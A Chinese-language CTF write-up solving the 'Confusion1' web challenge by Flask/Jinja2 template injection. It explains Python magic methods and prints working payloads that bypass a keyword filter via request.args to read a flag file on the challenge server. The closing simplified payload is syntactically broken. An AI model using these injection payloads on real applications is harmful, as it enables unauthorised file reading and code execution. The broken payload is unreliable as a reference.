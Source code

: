 # Confusion1

[题目地址](https://adworld.xctf.org.cn/challenges/details?hash=7100b512-f0d1-4b55-a39f-ba9c0c800b57_2)

这题又是模版注入，就是不太明显，我想不到，还是做的题太少了。

![Confusion1](../../images/Confusion1.png)

网站还是很简陋，简陋到点Login和Register都会报错的程度。最奇怪的的是最左边那个灰色的链接可以点，然后会把你带到一个和题目完全无关的网站去。检查当前网页的元素会发现首页图片的名字“PythonVsPhp”。

没啥思路，随便点点，发现报错页面的源代码中有注释。

- <!--Flag @ /opt/flag_1de36dff62a3a54ecfbc6e1fd2ef0ad1.txt-->
- <!--Salt @ /opt/salt_b420e8cfb8862548e68459ae1d37a1d5.txt-->

莫名其妙告诉了我们flag的路径，难不成又是任意文件读取这类的东西？robots.txt没有发现，phps也没法看。这时想到python，你说python在ctf里比较常见的考点是啥呢？Flask模版注入？

- http://61.147.171.105:51070/{{2*2}}

> The requested URL /4 was not found on this server.

文件名是个注入点。我不太懂模版注入，所以去网上找了经典的flask注入payload。

- {{''.\__class__.\__mro__\[2].\__subclasses__()}}

然后被过滤了。上次在shrine里用的{{url_for.\__globals__}}也不能用，看来要想办法绕掉常用的__class__等内容。想绕过就要先理解上面那个payload的原理。

- ### Python魔术方法
- > \__class__  返回类型所属的对象<br>\__mro__    返回一个包含对象所继承的基类元组，方法在解析时按照元组的顺序解析。<br>\__base__   返回该对象所继承的基<br>__base__和__mro__都是用来寻找基类的<br>\__subclasses__   每个类都保留了子类的引用，这个方法返回一个类中仍然可用的的引用的列表<br>\__init__  类的初始化方法<br>\__globals__  对包含函数全局变量的字典的引用<br>\__builtins__ builtins即是引用，Python程序一旦启动，它就会在程序员所写的代码没有运行之前就已经被加载到内存中了,而对于builtins却不用导入，它在任何模块都直接可见，所以可以直接调用引用的模块

- ### 获取基类
- > \[].\__class__.\__base__<br>''.\__class__.\__mro__\[2]<br>().\__class__.\__base__<br>{}.\__class__.\__base__<br>request.\__class__.\__mro__\[8] 　　//针对jinjia2/flask为\[9]<br>\[].\__class__.\__bases__\[0]

- ### 获取基类的子类
- > [].\__class__.\__base__.\__subclasses__()

由上可得 {{''.\__class__.\__mro__\[2].\__subclasses__()}} 的作用是寻找字符串''的所属对象的位于第二个索引的基类的子类列表。在python中，所有数据类型的父类都是object，所以__mro__\[2]获取的就是object（python支持多继承所以一个类型可能会有很多父类，这里正好索引2是object）。最后__subclasses__()找子类，注意__subclasses__()是个方法。详情请见[这里](https://blog.csdn.net/xiao__1bai/article/details/115672392)。

了解了基本的魔术方法后就能正式想想怎么绕过了，这里可以利用flask的全局对象request来实现。（全局对我们来说就是方便调用）

- {{''\[request.args.a][request.args.b][2]\[request.args.c]()\[40]\('/opt/flag_1de36dff62a3a54ecfbc6e1fd2ef0ad1.txt')\[request.args.d]()}}?a=\__class__&b=\__mro__&c=\__subclasses__&d=read

request顾名思义，就是flask内部用于处理请求的对象。request.args用于获取get方法的参数，用法就是request.args.参数名。注意服务器收到的url内容只有 {{''\[request.args.a][request.args.b][2]\[request.args.c]()\[40]\('/opt/flag_1de36dff62a3a54ecfbc6e1fd2ef0ad1.txt')\[request.args.d]()}} 这部分，后面get传参的内容是不会被送到url中的，也就不会被过滤。如果把request去掉那这个payload就很清楚了。

- {{''.\__class__.\__mro__\[2]\__subclasses__()\[40]\('/opt/flag_1de36dff62a3a54ecfbc6e1fd2ef0ad1.txt','read')\()}}

其实就是找到文件并读取（可能不准确但是原理差不多了）。''.\__class__.\__mro__\[2]\__subclasses__()\[40]为<type 'file'>。

- ### Flag
- > cyberpeace{9d6a2aa7526b1f51bdbeed194730c73c}




